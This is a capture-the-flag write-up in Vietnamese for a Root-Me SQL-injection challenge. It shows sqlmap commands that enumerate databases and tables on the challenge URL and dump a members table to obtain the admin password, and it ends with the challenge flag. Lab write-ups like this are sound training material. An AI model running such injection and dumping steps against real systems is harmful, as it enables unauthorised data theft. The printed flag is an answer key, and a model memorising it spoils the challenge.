










# Write up challenge SQL injection - Error

Tác giả:
- **Nguyễn Mỹ Quỳnh**  

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error) 

Truy cập challenge ta thấy gồm 2 trang Authentication | Contents

 

  Sau khi test bằng cách nhập `'` vào cuối url trang Contents em thấy rằng lỗi SQL injection 
 xuất hiện tại đây

 

Tiến hành sử dụng sqlmap với url này. Option -u chỉ định url cần khai thác, --dbs là để lấy dữ liệu database.

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs`

 

Trong các databasse tìm được, cần chú ý public. Thử tiếp tục khai thác. Gõ lệnh: (--tables lấy tên bảng trong database được chỉ định bởi option -D)

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

Tiếp tục khai thác các bảng tìm được. Option -T chỉ định bảng cần lấy data, --dump để lấy toàn bộ data của bảng này:

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`

Có được passadmin tiến hành xác thực tại trang Authentication thì nhận được thông báo flag là pass admin.

Submit thành công 

  

> **Flag:** 1a2BdKT5DIx3qxQN3UaC
